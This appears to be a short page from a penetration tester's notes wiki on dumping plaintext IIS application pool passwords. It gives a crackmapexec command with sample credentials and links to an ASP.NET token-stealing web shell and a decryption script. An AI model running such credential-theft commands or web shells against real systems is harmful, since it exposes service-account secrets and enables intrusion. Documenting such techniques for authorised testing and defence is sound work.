 ```yaml
---
title: IIS AppPool Dump
---
```


[[notes/mitre-attack/credential-access|Access Credentials]] of the IIS service account as [[notes/windows/credential-access-admin|local admin]].

Retrieve plain passwords of IIS application pools ([source](https://twitter.com/mpgn_x64/status/1693249217609740470)).

=== "[[notes/tools/crackmapexec]]"
    ~~~ bash
    crackmapexec smb web01.corp.local -u jdoeadm -p 'passw0rd' -M iis
    ~~~

    If the module can not dump the password of an account it is probably a gMSA.

Untested tools:

- [Handly](https://github.com/blackarrowsec/Handly/tree/main/IIS), ASP.NET web shell that steals and impersonates tokens held by IIS
- [AppPoolCredDecrypt](https://github.com/xpn/RandomTSScripts/tree/master/apppoolcreddecrypt)
